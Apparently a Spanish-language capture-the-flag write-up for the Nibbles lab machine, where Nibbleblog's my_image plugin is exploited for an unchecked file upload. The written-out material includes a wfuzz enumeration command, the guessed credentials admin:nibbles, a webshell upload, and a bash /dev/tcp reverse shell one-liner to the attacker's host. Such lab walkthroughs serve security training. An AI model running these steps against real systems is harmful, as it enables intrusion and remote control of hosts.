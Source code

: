 Revisando el *README* encuentro la versión del software, mirando en *searchsploit* encuentro que es vulnerable a *insecure file upload* debido a que el plugin *my_image* (que viene por defecto) no comprueba las extensiones de los archivos:

![image](https://user-images.githubusercontent.com/55555187/187643248-bd2c5390-769f-490f-bb5d-34d977b01c0b.png)

![image](https://user-images.githubusercontent.com/55555187/187643302-205e9392-d99d-4a3d-858e-5b9e8bab1b75.png)

Revisando el exploit veo que requiere credenciales válidas, como que de momento no tengo.

Otra cosa relevante es que en */content/private/users.xml* se puede ver que existe el usuario *admin* y que hay un sistema de blacklist en el login:

<img title="" src="https://user-images.githubusercontent.com/55555187/187645276-6c66a43e-1de9-4d3c-8ab3-fea0ad29d424.png" alt="image" width="484">  

Como no veo nada más de utilidad, lanzo otro fuzzing pero esta vez indicandole que quiero que busque archivos *.PHP* ya que si ponemos */feed* sin la extensión, nos devuelve un *404* por lo que la extensión es importante.

```bash
wfuzz -c --hc=404 -t 200 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php
```

Encuentro el panel de login de administración en */admin.php* y tras revisar bastante llego a la conclusión de que tengo que hacer guessing de la contraseña. Probando con diversas variaciones del nombre de la web obtengo credenciales válidas:

```tex
admin:nibbles
```

Me logueo, busco el plugin *My Image*, subo una *webshell* y la exploto bajo el directorio */content/private/plugins/my_image/image.php*:

<img src="https://user-images.githubusercontent.com/55555187/187650798-683be153-90cc-4ad0-ba5d-b20e974fe4e1.png" title="" alt="image" width="568">

<img src="https://user-images.githubusercontent.com/55555187/187650998-1fca3284-2ab6-47f5-901d-02e519be6937.png" title="" alt="image" width="529">

Contenido de la *webshell*:

<img title="" src="https://user-images.githubusercontent.com/55555187/187651842-cf925a98-bfd2-49f9-ae5f-bb82540a20fd.png" alt="image" width="377">

<img src="https://user-images.githubusercontent.com/55555187/187651766-38cc8f99-b7b5-4ce4-ae70-555d6d503030.png" title="" alt="image" width="469">

Una vez que sé que puedo ejecutar comandos, miro si *netcat* está instalado y si tiene la opción *-e* habilitada, cosa que no es así:

![image](https://user-images.githubusercontent.com/55555187/187652030-28c27fe3-3284-4371-a27b-91b88d931676.png)

En este caso decido optar por entablarme una reverse shell haciendo uso del siguiente comando:

```bash
bash -i >& /dev/tcp/10.10.14.5/443 0>&1
```
